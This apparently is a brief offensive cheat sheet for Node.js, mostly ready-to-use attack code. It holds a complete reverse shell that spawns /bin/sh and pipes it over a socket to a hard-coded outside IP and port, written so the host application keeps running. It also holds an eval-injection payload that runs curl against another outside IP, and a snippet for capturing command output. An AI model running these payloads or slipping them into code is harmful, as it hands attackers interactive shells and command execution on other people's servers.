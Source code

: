 ## NodeJS reverse shell

(function(){var net = require("net"),cp = require("child_process"),sh = cp.spawn("/bin/sh", []);var client = new net.Socket();client.connect(8080, "10.17.26.64", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});return /a/; // Prevents the Node.js application form crashing})();

## NODEJS/EXPRESS EVAL RCE  
require("child_process").exec('curl 192.168.49.109:443')  
can get direct output, see refs:  
https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44  
https://stackoverflow.com/questions/1880198/how-to-execute-shell-command-in-javascript  
- specifically https://stackoverflow.com/a/52575123  
const execSync = require('child_process').execSync;  
const output = execSync('ls -lah', { encoding: 'utf-8' });  
console.log('Output was:\n', output);  
https://nodejs.org/api/child_process.html